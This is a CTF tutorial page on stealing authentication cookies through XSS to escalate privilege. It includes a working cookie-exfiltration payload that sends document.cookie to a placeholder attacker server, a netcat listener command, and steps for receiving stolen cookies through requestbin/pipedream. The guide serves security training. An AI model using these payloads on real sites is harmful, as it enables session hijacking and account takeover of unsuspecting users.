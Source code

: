 ```yaml
---
description: >-
  Exploiting web application vulnerabilities to steal authentication cookies and
  escalate privilege or assume identity of another user
---
```


# Stealing Cookies

## Overview

Many websites use [cookies](https://kb.iu.edu/d/agwm) to authenticate users or to keep track of users across the application after authentication has occurred. Cookies can correlate to a specific user id, and lets the server know what authority the user has to access resources or make changes. 

Often, the use of stealing cookies in the context of a CTF involves escalating privilege from a normal user account to that of an admin. This could involve stealing the cookie of an authenticated admin in order to gain the privilege of that user. To do  so, one might exploit a cross site scripting attack, or XSS, in which an administrator or other user can be tricked to clicking a link which sends the attacker his or her cookies. Read more about XSS [here](./).

## Guide to Stealing Cookies

Stealing cookies is a _server side_ attack. This means that aside from the CTF player, another user has to be interacted with to trigger the vulnerability. In CTF context, this   could mean interacting with the CTF organizers/facilitators, or it could mean the organizers have set up some kind of automated process. An example of an automated process would be automated actions on [Selenium](https://www.selenium.dev/). 

### Step 1, Find a [XSS Vulnerability ](./)

To find an [XSS vulnerability](./), you often need to test input fields on a webpage. These can be comment boxes, input forms, or anywhere else you can submit text to the server. Below are some good resources for testing various inputs which _might_ trigger an [XSS vulnerability](./). 

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" caption="PortSwigget Cross Site Scripting Cheat Sheet" %}

{% embed url="https://owasp.org/www-community/xss-filter-evasion-cheatsheet" caption="OWASP XSS Filter Cheat Sheet" %}

### Step 2, Create Payload

To effectively steal another user's cookie, your payload needs to do two things; it needs to collect a session cookie, and it needs to display the cookie so you can see it. The later of the two steps is different depending if you are competing in a local network CTF or one hosted over the internet. 

#### Local Network Payload

A local network CTF can be defined as a CTF in which the target CTF application and your attack machine are on the same network. These can include a [VulnHub](../../../categories/boot-2-root/vulnhub.md) [boot 2 root](../../../categories/boot-2-root/) challenge where you are running the CTF and your attack machine in the same virtualization software. Payloads in a local network need to send cookies _directly_  to your attack machine. An easy way to accomplish this is with netcat. 

#### Netcat 

Start a netcat listener on port 80 . Once started, the payload for the XSS exploit should point directly to your attack machine's local ip and port 80.

```bash
nc -lnvp 80
```

An example payload might look like this. \([source](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)\)

```markup
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

#### Stealing Cookies over the Internet

When competing in an online event, a local netcat listener will not work. Instead of directing the cookie locally, you can direct it to a resource you own on the internet. One of these best ways this can be done is with requestbin and pipedream

#### Sign up for a free requestbin account

{% embed url="https://requestbin.com/" %}

Once signed in, your first endpoint will be automatically generated for you. On the middle of the endpoint dashboard, select the create http source button. This will take you over to pipedream, a site where you can see live requests to your endpoint url. 

![](../../../.gitbook/assets/screen-shot-2020-06-15-at-9.47.14-pm.png)

On the pipedream dashboard, you will see a new endpoint url. This is the target that you will want to use in your XSS payload when stealing cookies, however, instead of a netcat listener receiving the connection request and credentials, you will see requests through the pipedream dashboard.

### Step 3: Triggering the Exploit

The final step after identifying an XSS vulnerability, crafting the payload, and preparing to receive a connection, is to get another users to trigger the exploit. Depending on the CTF, this might be done by "submitting" your payload to the CTF server, and some automated process using software like selenium might trigger the XSS and send the request back to your endpoint.  

